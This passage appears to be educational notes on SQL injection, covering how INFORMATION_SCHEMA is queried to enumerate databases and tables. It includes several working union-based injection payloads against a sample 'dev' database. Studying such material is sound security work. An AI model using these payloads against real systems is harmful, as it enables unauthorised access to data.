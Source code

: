 
>The INFORMATION_SCHEMA database contains metadata about the databases and tables present on the server. This database plays a crucial role while exploiting SQL injection vulnerabilities. As this is a different database, we cannot call its tables directly with a SELECT statement. If we only specify a table's name for a SELECT statement, it will look for tables within the same database.

>So, to reference a table present in another DB, we can use the dot ‘.’ operator. For example, to SELECT a table users present in a database named my_database, we can use:


```sql
SELECT * FROM my_database.users;
```

#### SCHEMATA:
>To start our enumeration, we should find what databases are available on the DBMS. The table SCHEMATA in the INFORMATION_SCHEMA database contains information about all databases on the server. It is used to obtain database names so we can then query them. The SCHEMA_NAME column contains all the database names currently present.Let us first test this on a local database to see how the query is used:

```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)

```

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

>We can find the current database with the SELECT database() query.

```sql
cn' UNION select 1,database(),2,3-- -

```

>The TABLES table contains information about all tables throughout the database. This table contains multiple columns, but we are interested in the TABLE_SCHEMA and TABLE_NAME columns. The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to. This can be done similarly to how we found the database names. For example, we can use the following payload to find the tables within the dev database:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```
